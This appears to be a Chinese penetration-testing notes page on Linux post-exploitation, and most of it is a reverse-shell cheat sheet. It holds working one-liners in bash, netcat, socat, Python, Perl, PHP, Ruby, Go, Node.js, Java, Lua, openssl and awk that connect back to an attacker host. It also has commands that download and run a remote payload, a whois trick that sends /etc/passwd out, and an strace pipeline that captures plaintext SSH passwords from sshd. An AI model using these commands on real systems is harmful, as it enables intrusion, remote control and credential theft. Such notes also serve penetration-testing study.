



# Linux 安全

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 漏洞利用

- [OS-Exploits](./OS-Exploits.md#Linux)

---

# LOL

`Living Off The Land`

**相关文章**
- [busybox docker 受限环境下回传文件](https://landgrey.me/blog/3/)
- [命令行上线小技巧](https://blog.m1kh.com/index.php/archives/694/)

**相关资源**
- [GTFOBins](https://gtfobins.github.io/)

**相关工具**
- [sameera-madushan/Print-My-Shell](https://github.com/sameera-madushan/Print-My-Shell) - 自动化生成各种类型的反向 Shell
- [lukechilds/reverse-shell](https://github.com/lukechilds/reverse-shell) - Reverse Shell as a Service
- [nodauf/Girsh](https://github.com/nodauf/Girsh) - nc 的替代品

    
- [WangYihang/Platypus](https://github.com/WangYihang/Platypus)
    ```bash
    ./Platypus

    list # 查看连接
    jump xxxx   # 跳到目标机器
    Interact    # 交互模式
    ```

**查看语言/代码支持情况**
```bash
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
```

**查找可利用于传输文件的命令**
```bash
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
find / -name scp
```

## bash

- tcp

    ```bash
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

    0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
    ```

- udp

    ```bash
    Victim:
    sh -i >& /dev/udp/10.0.0.1/4242 0>&1

    Listener:
    nc -u -lvp 4242
    ```

## Socat

```bash
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```bash
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

## nc

- **bind shell**
    ```bash
    # 被控端
    nc -lvp 4444 -e cmd.exe     # win
    nc -lvp 4444 -e /bin/bash   # linux

    # 攻击端
    nc -nv 192.168.1.1 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **reverse shell**
    ```bash
    # 被控端
    nc -nv 192.168.1.1 4444 -e /bin/bash

    # 攻击端
    nc -lvp 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **文件传输**
    ```bash
    # 收
    nc -nvlp 4444 > aaa
    ```
    ```bash
    # 发
    nc -nv 192.168.1.1 4444 </usr/share/aaa    # kali
    ```

### ncat

```bash
# 被控端
ncat lvp 4444 -e cmd.exe --allow 192.168.1.1 --ssl

# 攻击端
ncat -v 192.168.1.1 4444 --ssl
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### Netcat Traditional
```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

### Netcat OpenBsd
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

## curl
```bash
curl -o test.elf https://xxx.com/shell/test.elf && chmod +x test.elf && ./test.elf
```

## wget
```bash
wget http://1.1.1.1/shell
```

## Other
### perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### python

- IPv4
    ```python
    export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
    ```

- IPv6
    ```python
    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
    ```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Golang

```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### lambda Node.js

```js
vim shell.js

(function(){
    var net=require("net"),
    cp = require("child_process"),
    sh =  cp.spawn("/bin/sh",[]);
    var client = new net.Socket();
    client.connect(8888,"1.1.1.1",function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
```bash
node shell.js
```

### java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- **Java Alternative 1**
    ```java
    String host="127.0.0.1";
    int port=4444;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

- **Java Alternative 2**

    **NOTE**: This is more stealthy

    ```java
    Thread thread = new Thread(){
        public void run(){
            // Reverse shell here
        }
    }
    thread.start();
    ```

### lua

```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
```bash
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### openssl

Attacker:
```bash
# 生成密钥
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# 启动监听
openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

# 在目标机器上回弹
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

### awk

```bash
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### whois

接收端
```
nc -vlnp 1337 | sed "s/ //g" | base64 -d
```

发送端
```
whois -h 127.0.0.1 -p 1337 `cat /etc/passwd | base64`
```

---

# 认证

**相关文章**
- [How to Crack Shadow Hashes After Getting Root on a Linux System](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)
- [Linux下的密码Hash——加密方式与破解方法的技术整理](https://3gstudent.github.io/3gstudent.github.io/Linux%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81Hash-%E5%8A%A0%E5%AF%86%E6%96%B9%E5%BC%8F%E4%B8%8E%E7%A0%B4%E8%A7%A3%E6%96%B9%E6%B3%95%E7%9A%84%E6%8A%80%E6%9C%AF%E6%95%B4%E7%90%86/)

**相关工具**
- [huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin) - 从当前 Linux 用户转储登录密码的工具
- [Hashcat](../../安全工具/Hashcat.md#爆破shadow文件)

## 口令抓取

当我们拿下 windows 机器时可以通过抓内存中的密码进行横向，但 linux 却不可能抓到内存中的密码，但是 Debian 系列下的 linux 系统可以通过监听 sshd 进程的数据抓取出明文密码，比如你拿下了一台管理员机器，上面由 xshell，你可以手动开一个监听，在开一个登录，监听的窗口上就抓出密码了

```bash
strace -xx -fp `cat /var/run/sshd.pid` 2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```

实测 kali、ubuntu 都可以，centos 不行




